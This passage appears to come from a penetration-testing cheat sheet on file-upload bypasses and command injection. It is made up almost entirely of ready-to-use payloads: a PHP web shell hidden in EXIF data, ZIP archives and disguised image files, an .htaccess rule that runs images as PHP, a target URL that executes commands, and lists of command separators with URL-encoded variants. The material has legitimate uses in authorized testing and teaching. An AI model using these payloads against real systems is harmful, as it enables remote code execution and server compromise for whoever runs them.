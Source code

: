 #### 4.3 Advanced Upload Bypasses

**ExifTool Technique:**
```bash
# Embed PHP code in EXIF data
exiftool -Comment="<?php system(\$_GET['cmd']); ?>" image.jpg
mv image.jpg image.php.jpg
```

**ZIP Upload Exploitation:**
```bash
# Create malicious ZIP file
echo "<?php system(\$_GET['cmd']); ?>" > shell.php
zip shell.zip shell.php

# If ZIP extraction occurs, access extracted file
http://target_ip/uploads/shell.php?cmd=whoami
```

**HTAccess Upload:**
```bash
# Upload .htaccess file to enable PHP execution
echo -e "AddHandler application/x-httpd-php .jpg\nAddHandler application/x-httpd-php .png" > .htaccess

# Upload image with PHP code
echo "<?php system(\$_GET['cmd']); ?>" > shell.jpg
```

### Scenario 5: Command Injection

#### 5.1 Command Injection Discovery
**Testing Command Separators:**
```bash
# Different command separators
; whoami
| whoami  
& whoami
&& whoami
|| whoami
`whoami`
$(whoami)
```

**Encoding Bypasses:**
```bash
# URL encoding
%3B%20whoami
%7C%20whoami
%26%20whoami

# Double URL encoding
%253B%2520whoami
```
